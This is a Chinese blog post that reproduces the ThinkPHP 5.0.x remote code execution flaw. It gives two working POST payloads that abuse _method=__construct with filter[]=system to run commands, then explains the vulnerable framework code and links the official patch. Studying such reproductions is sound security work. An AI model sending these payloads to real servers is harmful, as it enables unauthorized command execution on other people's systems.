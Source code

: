 date: 2020-01-30
categories:
- cve复现
tags:
- cve复现
title:  ThinkPHP 5.0.0~5.0.23 RCE 漏洞复现
---
# ThinkPHP 5.0.0~5.0.23 RCE 漏洞复现



## 利用条件



 ThinkPHP 5.0.0~5.0.23 

## exp

```
http://127.0.0.1/index.php?s=captcha

post_ex1：_method=__construct&filter[]=system&method=get&get[]=whoami
post_exp2：_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami
```





## 过程复现(exp1)

 以 thinkphp 5.0.22 完整版为复现环境(为啥要完整版等会说)，下载地址：http://www.thinkphp.cn/down/1260.html 

 官方补丁地址：https://github.com/top-think/framework/commit/4a4b5e64fa4c46f851b4004005bff5f3196de003 



![image562](https://i.loli.net/2020/01/30/LohuXMViDeg9AxT.png)



其中`$this->{$this->method}($_POST);`可以执行任意接受一个数组的request方法,`$this->method`可以通过控制`$_POST['_method']`来控制

查找相关方法后选定`__construct`来修改request属性再结合其他方法形成利用链

```php
protected function __construct($options = [])
    {
        foreach ($options as $name => $item) {
            if (property_exists($this, $name)) {
                $this->$name = $item;
            }
        }
        if (is_null($this->filter)) {
            $this->filter = Config::get('default_filter');
        }

        // 保存 php://input
        $this->input = file_get_contents('php://input');
    }
```
